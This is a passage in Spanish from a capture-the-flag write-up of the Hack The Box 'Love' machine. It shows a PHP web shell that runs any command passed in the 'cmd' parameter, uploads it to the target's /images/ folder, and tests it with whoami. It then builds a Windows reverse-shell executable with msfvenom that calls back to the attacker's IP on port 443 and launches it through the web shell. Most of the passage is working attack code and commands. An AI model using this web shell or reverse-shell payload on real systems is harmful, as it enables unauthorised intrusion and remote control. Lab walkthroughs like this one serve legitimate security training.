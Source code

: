 ![""](/assets/images/htb-love/love_panel2.png)

```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

Subimos el archivo y recordando que con la herramienta **wfuzz** se obtuvieron otros recursos dentro del sistema; por lo que comprobando, los archivo que podemos subir se guardan en la carpeta */images/*; por lo que despues de subir nuestro archivo php, ingresamos a la siguiente ruta y tratamos de ejecutar un comando a nivel de sistema mediante la variable **cmd**.

http://10.10.10.239/images/shell.php?cmd=whoami

Tenemos ejecución de comandos a nivel de sistema!

Ahora, necesitamos crear un archivo exe que nos permita establecer una reverse shell mediante el uso de la herramienta `msfvenom` y subimos nuestro archivo *reverse.exe* al sitio web. En este punto, nos ponemos en escuha por el puerto 443 y ejecutamos nuestro programa.

```bash
❯ msfvenom -a x64 --platform windows -p windows/x64/shell/reverse_tcp LHOST=10.10.14.5 LPORT=443 -f exe -o reverse.exe
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

http://10.10.10.239/images/shell.php?cmd=reverse.exe
